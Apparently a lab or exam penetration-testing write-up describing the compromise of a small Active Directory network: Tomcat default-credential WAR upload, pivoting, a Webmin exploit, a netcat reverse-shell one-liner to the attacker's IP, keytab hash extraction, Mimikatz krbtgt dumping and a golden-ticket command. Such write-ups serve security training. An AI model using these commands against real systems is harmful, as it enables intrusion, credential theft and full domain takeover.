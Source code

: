 Name: Aldi Satria
IP Target : 172.16.25.0/24
Date: May 2, 2025
Email: aldisatria1996@gmail.com

# 1. Introduction

To establish the connection, we used OpenVPN as the VPN client.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502191706.png)
After successfully connecting, we verified our IP address using the `ifconfig` command and obtained the IP `172.16.250.29`, which we recorded as the attacker's IP address.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502200314.png)
# 2. Reconnaisance 
Next, I performed an Nmap scan to identify live hosts within the `172.16.25.0/24` subnet. As previously mentioned, the IP address `172.16.15.1` is out of scope for this exam. The scan revealed only one live host: `172.16.25.2`.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502191823.png)
We focused our attention on `172.16.25.2` and performed a service and version detection scan using the command `nmap -sC -sV`. The scan revealed several open ports, including web services on ports `80` and `8180`, and notably, port `8080` running **Apache Tomcat version 5.5**, which could be of interest for further exploitation.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250503072125.png)
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250503072154.png)
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250503072210.png)
# 3. Initial Access
## a. Apache Tomcat
We attempted to access the Apache Tomcat web server by visiting `http://172.16.25.2:8180` and began exploring the web interface. When accessing the **Tomcat Manager**, we encountered basic authentication. I then searched for default Apache Tomcat credentials and found that the credentials `tomcat:tomcat` were valid for this server.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502194243.png)
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502200105.png)
After logging in, we discovered a file upload feature. We attempted to upload a JSP reverse shell, which we generated using `msfvenom`.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502200143.png)
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502201531.png)
Upon uploading the file, the server returned an error, indicating that the upload must be in `.war` format. We then recreated the reverse shell as a `.war` file, uploaded it, and successfully gained a shell on the target system.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502201150.png)
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502203000.png)
## b. Linux Shell
Once we had shell access, we checked the `/etc/passwd` file and found two interesting users: `prod-admin` and `msfadmin`.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502203550.png)
Next, we accessed `/home/prod-admin` and found a text file containing credentials. Initially, we speculated that these might be SSH credentials.
```
Support User Credential:
User : support
Pass : support@123

Prod-admin Credential: 

User: prod-admin
Pass: Pr0d!@#$%
```

![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502203805.png)
We tried to SSH into 172.16.25.2 using those credentials, but none of them worked.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502205617.png)
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502210731.png)
We then reconsidered our assumption that the credentials were for SSH and checked for other users in `/etc/passwd`. We tried logging in with the default credentials `msfadmin:msfadmin` (for the `msfadmin` user), and this successfully granted us access.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502210536.png)
While exploring the shell as `msfadmin`, we ran the `ifconfig` command and discovered another network interface connected to an internal network: `10.10.10.0/24`.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502211042.png)
We used Nmap with the `-Pn` flag to perform a host discovery scan on the internal network. For each live host identified, we checked for open ports. While `10.10.10.1` had no open ports.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502212459.png)
nmap result for 10.10.10.2
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502213143.png)
nmap result for 10.10.10.3
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502213446.png)
nmap result for 10.10.10.4
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502213805.png)
nmap result for 10.10.10.5
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502214254.png)
## c. Network Pivoting
As the next step, we initiated **network pivoting** using **proxychains** to facilitate access to the internal network.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502211841.png)
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502211954.png)
After configuring `proxychains`, we tested connectivity using the `nc` (netcat) command to confirm the setup. The test was successful.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502212151.png)
## d. 10.10.10.3
When we accessed `http://10.10.10.3:10000`, we found a **webmin login page**, which indicated a potentially valuable target for further exploitation.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502215940.png)
Using `searchsploit`, we found an exploit titled **“Package Update Escape Bypass RCE”**, and we decided to use Metasploit to exploit it.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502221723.png)
We configured the necessary variables in Metasploit and used the credentials found earlier in the `prod-admin` directory (`support:support@123`). The exploit was successful, and we obtained a shell on the internal machine.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502223520.png)
For easier access, we set up an `nc` listener to obtain another reverse shell, and it was successful.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.250.29 5555 >/tmp/f
```
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502224006.png)
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502224046.png)
After further exploration, we discovered that `child-admin.keytab` is part of the Kerberos authentication system. Since we could not SCP the `child-admin.keytab` file, we converted it to Base64 and copied the Base64-encoded data to our local machine.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502224725.png)
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502230925.png)
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502230944.png)
We used this tool to extract the NTLM hash from the keytab file and successfully obtained the NTLM hash for the `child-admin` user.
https://github.com/sosdave/KeyTabExtract
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502231222.png)
```
dbac2b57a73bb883422658d2aea36967
```

## e. 10.10.10.2
After obtaining the NTLM hash, we used `impacket-psexec` to log into the shell using the hash on 10.10.10.2, as the IP had Kerberos service, and we successfully logged in.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250502232758.png)
We used tools from PowerSploit ([https://github.com/PowerShellMafia/PowerSploit.git](https://github.com/PowerShellMafia/PowerSploit.git)) to gather information about the Windows server. We set up a mini web server to retrieve tools from our local machine and imported the `PowerView.ps1` module. We then used commands to obtain the Security Identifier (SID) of the domain.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250503003406.png)
```
Get-DomainSID -Domain child.redteam.corp
S-1-5-21-2332039752-785340267-2377082902

Get-DomainSID -Domain redteam.corp
S-1-5-21-1882140339-3759710628-635303199

```
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250503011259.png)
# 4. Privilege Escalation
To obtain the Kerberos `krbtgt` hash, we executed Mimikatz on the compromised system. Mimikatz was transferred in the same manner as `powerview.ps1` was, using `iwr`.
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250503014200.png)
We ran the command `lsadump::lsa /patch` and successfully obtained the `krbtgt` hash.
```
RID  : 000001f6 (502)
User : krbtgt
LM   : 
NTLM : 24dd6646fd7e11b60b6a9508e6fe7e5a
```
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250503014451.png)
With the SID and `krbtgt` hash, we attempted to generate a golden ticket to escalate our privileges to administrator.
```
kerberos::golden /user:Administrator /domain:child.redteam.corp /sid:S-1-5-21-2332039752-785340267-2377082902 /sids:S-1-5-21-1882140339-3759710628-635303199-519 /krbtgt:24dd6646fd7e11b60b6a9508e6fe7e5a /ptt
```
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250503015733.png)
run this command to know parentDC from the domain and try acces directory
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250503021509.png)
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250503022013.png)
As our goal in the exam was to access `secret.xml`, we explored the Administrator directory and successfully located it.
```
type \\RED-DC.redteam.corp\C$\Users\Administrator\Desktop\secret.xml
```
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250503022043.png)
![](../HTB%20(Medium)%20-%20TheFrizz/Pasted%20image%2020250503025443.png)
# 5. Conclussion

...


